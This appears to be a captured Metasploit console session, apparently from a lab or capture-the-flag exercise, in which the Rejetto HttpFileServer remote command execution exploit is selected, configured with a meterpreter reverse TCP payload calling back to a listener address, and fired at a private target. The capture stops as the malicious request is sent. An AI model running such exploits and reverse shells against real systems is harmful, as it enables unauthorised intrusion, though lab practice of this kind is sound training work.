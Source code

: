 ```
Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use exploit/windows/http/rejetto_hfs_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0
                                         .0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.0.28.68
RHOSTS => 10.0.28.68
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.16.3:4444 
[*] Using URL: http://0.0.0.0:8080/VYgTHk
[*] Local IP: http://10.10.16.3:8080/VYgTHk
[*] Server started.
[*] Sending a malicious request to /
```